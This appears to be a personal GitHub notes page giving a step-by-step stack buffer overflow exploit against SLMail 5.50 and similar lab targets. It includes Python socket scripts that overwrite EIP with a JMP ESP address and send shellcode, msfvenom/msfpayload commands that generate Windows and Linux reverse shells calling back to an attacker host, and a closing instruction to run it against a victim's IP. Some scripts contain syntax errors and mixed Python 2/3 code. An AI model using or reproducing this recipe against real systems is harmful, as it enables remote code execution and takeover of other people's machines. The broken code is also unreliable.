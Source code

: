 # **Buffer Overflow**
## **Exploit Overview**
```
1. Fuzzing
	a. Sending malformed data into application input
2. SLMAIL 5.50 MAil Server
	a. Found in 2005
	b. Affected pop3 pass command
3. Bad Characters
	a. 0x00 - Null byte is also used to terminate strings
	b. 0x0D - Carriage Return - Signifies that the end  of password is reached
	c. 0x0A - Line Feed
4. Use msfpayload	windows/shell_reverse_tcp LHOST=<IP> EXITFUNC=thread LPORT=<Port> R | msfencode -­‐b "\x00\x0a\x0d"
5. Vulnerable Machines/Application -
		a. Linux crossfire
		b. Minishare
		c. SLMAIL
		d. brainpan
```
#### **Easy Access to Next Step -**

1. Copy exe file to windows machine.
2. Run exe in Imunnity debugger.
3. Open a file and write the following command and save it as exploit.py.
```
import socket
import sys
host = 'IP'
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
        print("Connecting to ")+str(host)
        s.connect((host,port))
        	  s.send()
        s.close()
        print("The message has been sent")
except:
        print("Unable to connect to ")+ str(host)
        sys.exit(0)
```
4. Run the following command -
```
python.exe <Path>\exploit.py
!mona config -set workingfolder c:\logs\%p
!mona pc 1000
!mona pattern_offset <33734132>
!mona findmsp → Safeseh- false
```
5. Send junk and EIP
```
import socket
host = <ip>
port = <port>                   # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
junk=b”A”*548
EIP = b’BBBB’
s.sendall(junk+EIP)
s.close()
print(“The message has been sent.”)
```
6. Find Bad Character -
```
import socket
host='<ip'
port=80
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))         # Connects to the Port in Target machine
junk=b”A”*548
EIP = b’BBBB’
bad_char=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
s.sendall(junk+EIP+bad_char)
s.close()
print(“The message has been sent.”)
```
7.Click on ESP → Rightclick → Follow TCP Dump--> Look for the pattern. If the any character is missing remove the bad character and resend the payload.
8. View → Executable Module -->Safe SEH-->False
9. Rightclick → Search for → JMP ESP
10. Note the Address - 311712F3
11. Replace the EIP with the address as
```
import socket,sys
host = "127.0.0.1"
port = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
junk = (b'A'*524)
EIP = (b'\xF3\x12\x17\x31')
s.sendall(junk+EIP)
s.close()
print("The message has been sent.")
```
13. If EIP doesn't get overwritten try adding nops and see if you can see that in ESP.
```
import socket,sys
host = "<ip>"
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    print "Connecting to " +str(host)
    s.connect((host,port))
    s.recv(1024)
    junk = b"A"*524
    EIP = b'\xf3\x12\x17\x31'
    nops = b"C"*10+b"D"*10
    print "Sending Payload..."
    s.sendall(junk+EIP+nops+payload)
    print "Sent"
except:
    print "Unable to connect " + str(host)
    sys.exit(0)
```
14. ESP shows first 10 D.
15. Create a shell code
```
msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> R -e x86/shikata_ga_nai -b '\x00' -f c
```
16. Listen on <attacker port> on attacker machine
17. Final payload
```
import socket,sys
host = "<ip>"
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    print "Connecting to " +str(host)
    s.connect((host,port))
    s.recv(1024)
    junk = b"A"*524
    EIP = b'\xf3\x12\x17\x31'
    nops = b"\x90"*10
		shellcode = b"...."
    print "Sending Payload..."
    s.sendall(junk+EIP+nops+shellcode)
    print "Sent"
except:
    print "Unable to connect " + str(host)
    sys.exit(0)
```
18. Got shell!! Bingo!!
19. Create a payload for linux machine by using the following code
		#**msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<port> R -e x86/shikata_ga_nai -b '\x00' -f c**
20. Change the host to vicktims IP and execute python code.
21. Got Victims Shell!! Cheers!
